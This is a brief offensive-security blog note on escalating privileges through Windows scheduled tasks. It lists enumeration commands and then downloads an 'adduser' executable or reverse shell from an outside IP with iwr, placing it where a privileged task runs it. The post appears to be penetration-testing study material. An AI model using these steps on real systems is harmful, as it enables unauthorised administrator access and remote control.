 ```yaml
---
layout: post
title: Windows Scheduled Paths
titledate: 09/16/23
tags: ["infosec","offsec", "privesc", "powershell"]
---
```


on windows scheduled tasks are activities that get performed by windows that are meant to be scheduled

these activities can be a variety of things but can be leveraged for our purposes to perform privilege escalation

below are the 3 criteria we must consider when deciding if we can leverage privesc

1. which account executes the task
2. what conditions or triggers are needed for the task to execute
3. when these conditions are met, what actions get executed

if the attack is executed in the context of a current non admin user then we most likely can not escalate privs from it, however, if it is a system or admin acct then we may be able to

let's view the tasks

    PS > schtasks /query /fo LIST /v

as always it will be helpful to know which users are administrators so these cmds are helpful

    PS > net user
    PS > Get-LocalGroupMember Administrators

this will provide us with a load of useful information like, the taskname, the time it is scheduled to run, if it was successful last run, who created it, where it executes from, and what is executing

we can check the permissions on the directory of the task 

    PS > icacls C:\Users\steve\Pictures\mytask.exe

so lets copy our adduser exe over (or a reverse shell)

    PS > iwr -Uri http://192.168.1.1/adduser.exe -Outfile mytask.exe

and then move it to the directory the task executes from

    PS > move .\mytask.exe .\Pictures\

now to get our code to execute we must wait for the next scheduled execution of the task - check the execution parameters , it may be on a reboot or something that can be forced with sc.exe

### TODO: need to write a script to parse the output of the tasks output to be more useful

### NOTE: can try filtering for dirs with perms like C:\Users etc